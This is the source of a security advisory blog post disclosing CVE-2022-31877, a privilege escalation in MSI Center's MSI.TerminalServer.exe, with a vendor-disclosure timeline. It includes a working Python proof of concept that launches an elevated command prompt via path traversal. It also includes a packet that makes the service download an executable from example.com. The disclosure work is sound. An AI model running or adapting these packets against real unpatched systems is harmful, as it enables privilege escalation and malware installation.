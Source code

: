 ```yaml
---
layout: post
title:  "CVE-2022-31877: Privilege Escalation in MSI Center's MSI.TerminalServer.exe"
date:   2022-07-08 21:00:00 +0200
categories: security
---
```


# General
- Affected product: MSI Center by [Micro-Star Int'l Co., Ltd.](https://msi.com)
- Affected version: < 1.0.45.0, e.g. 1.0.41.0
- [CVE-2022-31877](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31877)
- Summary: Missing input validation and missing authentication allow attackers with the ability to connect to TCP/IP ports on `localhost:26822` (e.g. any low-privileged user space process) to download and/or launch arbitraty executables with elevated privileges.

# Description
MSI Center, a tool suite provided by MSI to configure and manage MSI mainboards, includes an executable `MSI.TerminalServer.exe` which is installed as a privileged service by default and allows incoming TCP/IP connections on `localhost:26822`. Via the TCP/IP channel, in version 1.0.41.0, it accepts several JSON-formatted command packets without any authentication, including commands which download files from the web and launch executables with elevated privileges.

While these commands are meant to download and install updates of MSI Center, missing authentication allows attackers to trigger a download of arbitrary files form the web to the local file system. Missing input validation enables attackers to launch arbitrary executables, including the downloaded ones, with elevated permissions by employing path traversal techniques.

Combined, these vulnerabilities could, for example, serve as an entry point for user-space applications (like email attachments) to fully compromise a system, including installation of malware or ransomware.

# Proof of Concept
The following simple Python example will start an elevated Administrator command prompt when executed on a machine running MSI Center.
{% highlight python %}
import socket
import json

packet = {
    "Type": "RunSetupModule",
    "Content": json.dumps({
        "Dependent": [{
            "File": "..\\..\\..\\Windows\\system32\\cmd.exe"
        }],
        "DependentIndex": 0,
        "ProgressStatus": 21
    })
}

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('localhost', 26822))
    s.sendall(json.dumps(packet).encode('utf8'))
{% endhighlight %}

Similarly, an arbitray file download can be triggered via the `DownloadModule` packet type:
{% highlight python %}
packet = {
    "Type": "DownloadModule",
    "Content": json.dumps({
        "ProcessURL": "https://example.com/foo.exe",
        "Dependent": [{
            "File": "foo.exe"
        }],
        "DependentIndex": 0
    })
}
{% endhighlight %}

# Timeline
- *May 19, 2022:* Contacted vendor with a detailed report and PoC
- *May 25, 2022:* Issue partially confirmed by vendor
- *May 25, 2022:* Supplied more details including screencast of PoC
- *May 27, 2022:* Vendor confirms they are working on a fix
- *June 3, 2022:* CVE number assigned
- *June 3, 2022:* Vendor reports the issue is fixed in MSI.TerminalServer.exe 3.2022.0527.01 by introducing CA signature validation before launching executables
- *June 5, 2022:* I was able to update to a recent MSI Center version and confirm the issue has been fixed (i.e. the PoC is no longer working)

# Thank you and side note
I would like to thank MSI for quickly fixing this issue. However, it was difficult to find a contact in MSI to report this issue. I would like to encourage MSI to establish and publish a process to report security vulnerabilities in their products and add an easier way to contact security, without going through various tiers of technical support first. A first step could be to set up a dedicated email address and a `/.well-known/security.txt` file for easily finding contact information.
